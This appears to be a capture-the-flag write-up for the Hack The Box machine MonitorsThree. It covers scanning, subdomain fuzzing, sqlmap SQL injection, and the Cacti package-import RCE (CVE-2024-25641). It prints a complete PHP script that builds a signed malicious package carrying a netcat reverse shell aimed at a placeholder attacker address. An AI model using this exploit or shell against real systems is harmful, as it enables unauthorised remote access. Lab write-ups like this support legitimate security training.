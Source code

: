 ```bash
┌─[✗]─[aexon@parrot]─[~]
└──╼ $nmap -sCV -p- 10.10.11.30 --min-rate 1000 -Pn
Starting Nmap 7.95 ( https://nmap.org ) at 2024-08-25 10:05 WIB
Warning: 10.10.11.30 giving up on port because retransmission cap hit (10).
Nmap scan report for monitorsthree.htb (10.10.11.30)
Host is up (0.11s latency).
Not shown: 33505 filtered tcp ports (no-response), 32028 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 86:f8:7d:6f:42:91:bb:89:72:91:af:72:f3:01:ff:5b (ECDSA)
|_  256 50:f9:ed:8e:73:64:9e:aa:f6:08:95:14:f0:a6:0d:57 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: MonitorsThree - Networking Solutions
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 527.49 seconds

```

terdapat sql injection pada forgot-password


## 2. Enumerating Subdomains with FFUF

With HTTP open, I decided to enumerate subdomains using FFUF:

```bash
ffuf -w /path/to/wordlist -u http://monitorsthree.htb/ -H "Host: FUZZ.<target_ip>"
```

This helped me discover a subdomain called ‘cacti’. I added this subdomain to my `/etc/hosts` file to access it:

```bash
echo "<target_ip> cacti.monitorsthree.htb" | sudo tee -a /etc/hosts
```

## 3. Finding SQL Injection in Main Subdomain

Next, I focused on the main subdomain and found a SQL Injection vulnerability in `forgot_password.php`. I used SQLMap to automate the exploitation of this vulnerability, which took some time due to the complexity:

```bash
sqlmap -u "http://<target_ip>/forgot_password.php" // use flag --level and --risk --batch
```

After retrieving the database information, I extracted the usernames and passwords.

## 4. Exploiting Cacti RCE Vulnerability

Using the credentials obtained from SQLMap, I logged into the Cacti subdomain and discovered a Remote Code Execution (RCE) vulnerability in Cacti when importing packages (CVE-2024–25641). I followed the guidelines from [this GitHub advisory](https://github.com/Cacti/cacti/security/advisories/GHSA-7cmj-g5qc-pj88) to exploit the vulnerability and gained a shell on the machine.

```php
<?php  
  
$xmldata = "<xml>  
   <files>  
       <file>  
           <name>resource/rce.php</name>  
           <data>%s</data>  
           <filesignature>%s</filesignature>  
       </file>  
   </files>  
   <publickey>%s</publickey>  
   <signature></signature>  
</xml>";  
$filedata = "<?php shell_exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc YOUR_IP YOUR_PORT >/tmp/f'); ?>";  
$keypair = openssl_pkey_new();   
$public_key = openssl_pkey_get_details($keypair)["key"];   
openssl_sign($filedata, $filesignature, $keypair, OPENSSL_ALGO_SHA256);  
$data = sprintf($xmldata, base64_encode($filedata), base64_encode($filesignature), base64_encode($public_key));  
openssl_sign($data, $signature, $keypair, OPENSSL_ALGO_SHA256);  
file_put_contents("shutup.xml", str_replace("<signature></signature>", "<signature>".base64_encode($signature)."</signature>", $data));  
system("cat shutup.xml | gzip -9 > shutup.xml.gz; rm shutup.xml");  
  
?>
```

> save rce.php and running ‘php rce.php’

http://cacti.monitorsthree.htb/cacti/resource/rce.php

## 5. Getting the User Flag

To get the user flag, I accessed the MySQL database, but first, I needed to find the credentials. After logging into MySQL, I searched for the user flag in the appropriate directory.

## 6. Obtaining the Root Flag

locate file config db : /opt/duplicati

Bypass Login Dupti:

[https://youtu.be/HBM1gtdPUMY](https://youtu.be/HBM1gtdPUMY)

Finally, to obtain the root flag, I noticed a new port was running. I used port forwarding to access this service and escalated my privileges to root, allowing me to retrieve the root flag.